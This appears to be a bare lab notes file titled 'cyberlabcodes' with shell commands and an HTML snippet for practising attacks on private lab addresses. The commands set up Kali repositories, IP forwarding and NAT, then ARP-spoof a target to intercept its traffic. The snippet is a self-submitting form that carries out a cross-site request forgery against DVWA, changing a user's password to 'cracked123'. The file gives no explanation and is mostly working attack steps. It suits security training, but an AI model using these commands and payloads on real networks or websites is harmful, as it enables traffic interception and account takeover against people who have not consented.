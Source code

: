 # cyberlabcodes
test
deb http://http.kali.org/kali kali-rolling main contrib non-free
sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys ED65462EC8D5E4C5


sudo sysctl -w net.ipv4.ip_forward=1

cat /proc/sys/net/ipv4/ip_forward

sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

sudo iptables -A FORWARD -i eth0 -j ACCEPT

sudo arpspoof -i eth0 -t 192.168.128.2 192.168.128.1

<body onload="document.forms[0].submit()">
<form action="http://192.168.128.2/dvwa/vulnerabilities/csrf/">
  <input type="hidden" name="password_new"  value="cracked123">
  <input type="hidden" name="password_conf" value="cracked123">
  <input type="hidden" name="Change"        value="Change">
</form>
</body>
